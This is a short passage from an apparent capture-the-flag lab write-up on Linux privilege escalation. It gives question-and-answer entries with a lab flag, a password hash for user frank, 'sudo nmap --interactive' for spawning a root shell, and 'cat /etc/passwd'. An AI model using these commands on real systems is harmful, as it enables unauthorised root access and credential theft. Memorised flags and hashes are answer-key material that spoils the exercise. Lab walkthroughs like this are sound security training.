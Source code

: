 **=> Answer: `3`**

- <p>What is the content of the flag2.txt file?<br /></p>

```bash
cd /home/ubuntu
cat flag2.txt
```

**=> Answer: `THM-402028394`**

- <p>How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?<br /></p>

**=> Answer: `sudo nmap --interactive`**

- <p>What is the hash of frank's password?<br /></p>
- Currently we don't have access as `root`. Follow this instruction to easily get `root` access [https://forum.dronebotworkshop.com/ros/gain-root-access-in-linux-experts-only/](https://forum.dronebotworkshop.com/ros/gain-root-access-in-linux-experts-only/)

**=> Answer: `$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1`**

### 7. Privilege Escalation: SUID

- <p >
  Which user shares the name of a great comic book writer?</p>

```bash
cat /etc/passwd
```
